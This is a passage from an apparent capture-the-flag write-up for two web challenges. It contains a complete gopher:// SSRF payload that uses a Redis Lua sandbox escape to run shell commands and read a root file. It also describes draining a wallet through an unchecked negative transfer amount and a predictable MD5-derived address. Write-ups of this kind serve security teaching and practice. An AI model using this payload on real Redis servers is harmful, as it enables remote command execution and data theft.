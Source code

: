 And we also there's a recent CVE involved with redis.

```
gopher://127.0.0.1:6379/_*3%0d%0a%244%0d%0aeval%0d%0a%24197%0d%0alocal%20io_l%20%3d%20package.loadlib(%22%2fusr%2flib%2fx86_64-linux-gnu%2fliblua5.1.so.0%22%2c%20%22luaopen_io%22)%3b%20local%20io%20%3d%20io_l()%3b%20local%20f%20%3d%20io.popen(%22cat%20%2froot%2fflag%22%2c%20%22r%22)%3b%20local%20res%20%3d%20f%3aread(%22*a%22)%3b%20f%3aclose()%3b%20return%20res%0d%0a%241%0d%0a0%0d%0a*1%0d%0a%244%0d%0aquit
```

![](red-6.png)

**HTB{r3d_righ7_h4nd_t0_th3_r3dis_land!}**

### Genesis Wallet (325 points)

The value of this challenge is 325 points & +110 players have solved this challenge.

![](genesis-1.png)

We're given a website for login and registration.

![](genesis-2.png)

In the dashboard, there's a feature where we could transfer a `Genesis Coin`.

After doing some static analysis, there's something that needs to point out.

At `challenge/routes/index.js#L165:L167`, We could see there's no sanitation about the negative number.

```javascript
if (parseFloat(user.balance) < parseFloat(amount)) return res.status(403).send(response('Insufficient Funds!'));
if (!addressExp.test(receiver)) return res.status(403).send(response('Invalid receiver address format!'));
if (receiver == user.address) return res.status(403).send(response(`You can't send to your own address!`));
```
We need to drain the `icarus` balance, so we need to know the address for the `icarus` account. Its explained at here `challenge/database.js#L50`

```javascript
let address = crypto.createHash('md5').update(user).digest("hex");
```

This means, that the address for `icarus` is the result of encryption of the username `icarus`.

```bash
└─$ echo -n "icarus" | md5sum           
1ea8b3ac0640e44c27b3cb8a258a87f8  -
```

![](genesis-3.png)


**HTB{fl3w_t00_cl0s3_t0_th3_d3cept10n}**
